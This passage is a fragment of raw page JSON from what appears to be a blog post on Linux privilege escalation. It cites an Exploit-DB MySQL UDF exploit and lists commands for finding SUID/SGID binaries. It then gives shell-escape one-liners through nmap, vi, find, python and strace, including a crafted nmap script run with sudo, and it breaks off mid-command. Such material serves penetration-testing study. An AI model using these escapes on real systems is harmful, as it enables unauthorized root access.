 shell.","type":"P","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_16":{"id":"600154e55c0b\_16","\_\_typename":"Paragraph","name":"af52","text":"Offensive Security's Exploit Database Archive\\nMySQL 4.x\\u002F5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2).. local exploit for Linux platformwww.exploit-db.com","type":"MIXTAPE\_EMBED","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":{"\_\_typename":"MixtapeMetadata","href":"https:\\u002F\\u002Fwww.exploit-db.com\\u002Fexploits\\u002F1518","thumbnailImageId":"0\*aiIA1B5UXeccqAts"},"markups":\[{"\_\_typename":"Markup","start":0,"end":170,"type":"A","href":"https:\\u002F\\u002Fwww.exploit-db.com\\u002Fexploits\\u002F1518","anchorType":"LINK","userId":null,"linkMetadata":null},{"\_\_typename":"Markup","start":0,"end":45,"type":"STRONG","href":null,"anchorType":null,"userId":null,"linkMetadata":null},{"\_\_typename":"Markup","start":46,"end":152,"type":"EM","href":null,"anchorType":null,"userId":null,"linkMetadata":null}\],"dropCapImage":null},"Paragraph:600154e55c0b\_17":{"id":"600154e55c0b\_17","\_\_typename":"Paragraph","name":"0626","text":"\\\\x03 Find anything with SUID \\u002F SGID permission","type":"H3","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_18":{"id":"600154e55c0b\_18","\_\_typename":"Paragraph","name":"ac74","text":"Use the following 2 commands:","type":"P","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_19":{"id":"600154e55c0b\_19","\_\_typename":"Paragraph","name":"2fd2","text":"$ find \\u002F -user root -perm -4000 2\\u003E\\u002Fdev\\u002Fnull\\n$ find \\u002F -perm -2000 2\\u003E\\u002Fdev\\u002Fnull","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_20":{"id":"600154e55c0b\_20","\_\_typename":"Paragraph","name":"6006","text":"If you find the following command with SUID\\u002FSGID permission, perfect, you almost win.","type":"P","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_21":{"id":"600154e55c0b\_21","\_\_typename":"Paragraph","name":"d233","text":"nmap","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_22":{"id":"600154e55c0b\_22","\_\_typename":"Paragraph","name":"6136","text":"$ nmap --interactive\\nnmap\\u003E !sh","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_23":{"id":"600154e55c0b\_23","\_\_typename":"Paragraph","name":"69a1","text":"Another way below (if nmap doesn’t have interactive mode):\\n($ echo “os.execute(‘\\u002Fbin\\u002Fsh’)” \\u003E \\u002Ftmp\\u002Fshell.nse)\\n($ sudo nmap --script=\\u002Ftmp\\u002Fshell.nse)","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_24":{"id":"600154e55c0b\_24","\_\_typename":"Paragraph","name":"b873","text":"vi","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_25":{"id":"600154e55c0b\_25","\_\_typename":"Paragraph","name":"57fa","text":"$ vi\\n:!sh","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_26":{"id":"600154e55c0b\_26","\_\_typename":"Paragraph","name":"c72e","text":"find","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_27":{"id":"600154e55c0b\_27","\_\_typename":"Paragraph","name":"3634","text":"$ find \\u002F home -exec sh -i \\\\;","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_28":{"id":"600154e55c0b\_28","\_\_typename":"Paragraph","name":"4a61","text":"python","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_29":{"id":"600154e55c0b\_29","\_\_typename":"Paragraph","name":"16f0","text":"$ python -c ‘import pty;pty.spawn(“\\u002Fbin\\u002Fsh”)’","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_30":{"id":"600154e55c0b\_30","\_\_typename":"Paragraph","name":"745b","text":"strace","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_31":{"id":"600154e55c0b\_31","\_\_typename":"Paragraph","name":"c61c","text":"$ strace -o \\u002Fdev\\u002Fnull